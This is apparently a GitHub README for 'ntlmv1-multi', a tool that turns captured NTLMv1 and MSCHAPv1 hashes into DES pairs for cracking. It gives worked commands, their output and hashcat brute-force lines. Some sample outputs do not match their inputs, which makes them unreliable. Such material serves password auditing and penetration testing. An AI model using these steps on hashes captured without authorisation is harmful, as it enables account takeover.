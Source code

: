 # ntlmv1-multi
NTLMv1 Multitool

This tool modifies NTLMv1/NTLMv1-ESS/MSCHAPv1 hashes so they can be cracked with DES Mode 14000 in hashcat

This tool is based on work done by atom of team Hashcat https://hashcat.net/forum/thread-5832.html

It is also based on https://hashcat.net/forum/thread-5912.html and https://www.youtube.com/watch?v=LIHACAct2vo

# Usage

## NTLMv1-ESS
```
python ntlmv1-ess.py --ess "u4-netntlm::kNS:338d08f8e26de93300000000000000000000000000000000:9526fb8c23a90751cdd619b6cea564742e1e4bf33006ba41:cb8086049ec4736c"
```

```
['hashcat', '', 'DUSTIN-5AA37877', '85D5BC2CE95161CD00000000000000000000000000000000', '892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0', '1122334455667788']

Hostname: DUSTIN-5AA37877
Username: hashcat
LM Response: 85D5BC2CE95161CD00000000000000000000000000000000
NT Response: 892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0
Client Challenge: 85D5BC2CE95161CD
SRV Challenge: b36d2b9a8607ea77

To Calculate final 4 characters of NTLM hash use:
./ct3_to_ntlm.bin 2BBD6C9ABCD021D0 85D5BC2CE95161CD 85D5BC2CE95161CD00000000000000000000000000000000

To crack with hashcat create a file with the following contents:
892F905962F76D32:b36d2b9a8607ea77
3837F613F88DE27C:b36d2b9a8607ea77

To crack with hashcat:
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

## NTLMv1 no ESS
```
python ntlmv1.py --noess 'hashcat::DUSTIN-5AA37877:E343946E455EFC72746CF587C42022982F85252CC731BB25:51A539E6EE061F647CD5D48CE6C686653737C5E1DE26AC4C:1122334455667788'
```

```
Hashfield Split:
['hashcat', '', 'DUSTIN-5AA37877', 'E343946E455EFC72746CF587C42022982F85252CC731BB25', '51A539E6EE061F647CD5D48CE6C686653737C5E1DE26AC4C', '1122334455667788']

Hostname: DUSTIN-51137877
Username: hashcat
Challenge: 1122334455667788
Combined: 51A539E6EE061F647CD5D48CE6C686653737C5E1DE26AC4C
CT1: 51A539E6EE061F64
CT2: 7CD5D48CE6C68665
CT3: 3737C5E1DE26AC4C

To Calculate final 4 characters of NTLM hash use:
./ct3_to_ntlm.bin 3737C5E1DE26AC4C 1122334455667788

To crack with hashcat create a file with the following contents:
51A539E6EE061F64:1122334455667788
7CD5D48CE6C68665:1122334455667788

To crack with hashcat:
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```


## NTLMv1 JTR
```
python ntlmv1-jtr.py --jtr '$NETNTLM$1122334455667788$B2B2220790F40C88BCFF347C652F67A7C4A70D3BEBD70233'
```

```
['', 'NETNTLM', '1122334455667788', 'B2B2220790F40C88BCFF347C652F67A7C4A70D3BEBD70233']

Challenge: 1122334455667788
Combined: B2B2220790F40C88BCFF347C652F67A7C4A70D3BEBD70233
CT1: B2B2220790F40C88
CT2: BCFF347C652F67A7
CT3: C4A70D3BEBD70233

To Calculate final 4 characters of NTLM hash use:
./ct3_to_ntlm.bin C4A70D3BEBD70233 1122334455667788

To crack with hashcat create a file with the following contents:
B2B2220790F40C88:1122334455667788
BCFF347C652F67A7:1122334455667788

To crack with hashcat:
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

## NTLM hash to DES Key Converter for data validation testing
```
python ntlm-to-des.py  --ntlm 8846f7eaee8fb117ad06bdd830b7586c
```
```
DESKEY1: 8922bdfdae753e62
DESKEY2: 16d641d6ddc1c26e
```
